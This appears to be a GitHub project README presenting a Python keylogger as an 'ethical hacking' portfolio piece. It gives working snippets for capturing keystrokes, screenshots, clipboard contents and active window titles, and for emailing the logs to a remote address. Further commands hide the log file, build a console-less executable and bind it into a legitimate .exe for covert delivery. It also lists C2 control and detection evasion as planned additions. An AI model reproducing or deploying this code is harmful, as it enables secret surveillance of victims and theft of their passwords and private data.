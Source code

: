 # PYTHON-BASED KEYLOGGER

## Objective

This project aimed to develop a fully functional keylogger using Python that can capture and store keystrokes while operating stealthily in the background. The project included additional functionalities such as:

* Recording keystrokes in real-time.
* Taking periodic screenshots of the target machine.
* Capturing clipboard content.
* Logging active windows to track user activity.
* Operating in stealth mode with minimal detection.
* Sending collected data via email or storing it locally in a file.
* Optionally embedding the keylogger within a legitimate file for stealth delivery.
* This project provided hands-on experience in ethical hacking, malware development, and system monitoring.

### Skills Learned

* **Python programming** (Scripting, automation, and file handling).
* **Keyboard event monitoring** using the pynput module.
* **Screenshot capturing** with Pillow (PIL).
* **Clipboard access** using pyperclip.
* **Active window logging** with pygetwindow.
* **Stealth operation techniques** (running in the background).
* **Data exfiltration** via email and **server-based** delivery.
* **Building standalone executables** with pyinstaller.

### Tools & Libraries Used

* **Python 3** (Primary programming language).
* **pynput** (Keyboard event tracking).
* **Pillow (PIL)** (For taking screenshots).
* **pyperclip** (Clipboard access).
* **pygetwindow** (Tracking the active window).
* **smtplib** (Email sending).
* **pyinstaller** (Converting the script into an executable).

## Steps

1️⃣ **Setting Up the Keylogger**
* Imported pynput.keyboard.Listener to listen for keystrokes.
* Created a function to store the captured keystrokes in a log file.
* Ensured that special keys (Enter, Shift, etc.) were properly recorded.

📌 **Code Snippet: Keystroke Logging:**
```python
from pynput.keyboard import Listener

def log_keystroke(key):
    with open("logs.txt", "a") as file:
        file.write(str(key) + "\n")

with Listener(on_press=log_keystroke) as listener:
    listener.join()
```

2️⃣ **Capturing Screenshots**
* Used the Pillow (PIL) library to capture and save screenshots at regular intervals.
* Saved screenshots to a predefined directory.

📌 **Code Snippet: Screenshot Capture**
```python
from PIL import ImageGrab
import time

def take_screenshot():
    screenshot = ImageGrab.grab()
    screenshot.save(f"screenshot_{time.strftime('%Y%m%d-%H%M%S')}.png")

take_screenshot()
```

3️⃣ **Capturing Clipboard Content**
* Used pyperclip to extract the contents of the clipboard.
* Logged clipboard data alongside keystroke logs.

📌 **Code Snippet: Clipboard Logging**
```python
import pyperclip

def get_clipboard():
    clipboard_data = pyperclip.paste()
    with open("logs.txt", "a") as file:
        file.write("\nClipboard Data: " + clipboard_data + "\n")

get_clipboard()
```

4️⃣ **Logging Active Window Titles**
* Used pygetwindow to track and log the active window.
* This helped in identifying which applications were being used while typing.

📌 **Code Snippet: Active Window Tracking**
```python
import pygetwindow as gw

def get_active_window():
    active_window = gw.getActiveWindow()
    if active_window:
        with open("logs.txt", "a") as file:
            file.write("\nActive Window: " + active_window.title + "\n")

get_active_window()
```

5️⃣ **Sending Data via Email**
* Used Python’s built-in smtplib to send collected logs and screenshots via email.
* Configured email settings to automate data exfiltration.

📌 **Code Snippet: Sending Logs via Email**
```python
import smtplib
from email.message import EmailMessage

def send_logs():
    email_sender = "abc123@example.com"
    email_receiver = "def456@example.com"
    password = "your_password"

    msg = EmailMessage()
    msg.set_content("Attached are the captured logs.")
    msg["Subject"] = "Keylogger Logs"
    msg["From"] = email_sender
    msg["To"] = email_receiver

    with open("logs.txt", "rb") as file:
        msg.add_attachment(file.read(), filename="logs.txt")

    server = smtplib.SMTP_SSL("smtp.example.com", 465)
    server.login(email_sender, password)
    server.send_message(msg)
    server.quit()

send_logs()
```

6️⃣ **Hiding the Keylogger (Stealth Mode)**
* Ensured the script ran in the background without a visible console window.
* Used pyinstaller to bundle the script into an executable file.

📌 **Code Snippet: Running in Background**
```python
import os

def hide_console():
    os.system("attrib +h logs.txt")

hide_console()
```

7️⃣ **Converting to an Executable**
* Used pyinstaller to package the script as an .exe file.
* Ensured it could be delivered as a standalone executable.

📌 **Command to Convert Script:**
```python
pyinstaller --onefile --noconsole keylogger.py
```

8️⃣ **Embedding in a Legitimate File**
* Explored methods of embedding the keylogger into a legitimate file.
* Used payload binding techniques to bundle the script with another executable.

📌 **Command to Bundle with Another File:**
```python
copy /b legitimate.exe + keylogger.exe output.exe
```

**Conclusion**

This project provided valuable experience in ethical hacking, malware development, and stealth operations. The keylogger was designed to be highly functional, capturing keystrokes, screenshots, clipboard data, and active windows while remaining hidden.

**Future Enhancements**
* Encrypting logs before exfiltration to enhance stealth.
* Using a C2 (Command & Control) server for remote access instead of email.
* Improving obfuscation techniques to evade detection.
* Adding self-destruct functionality to erase logs after exfiltration.

**This project demonstrates how keyloggers work and provides insights into security vulnerabilities that can be exploited. Ethical hackers and security professionals can use this knowledge to enhance system defenses against malicious threats.**
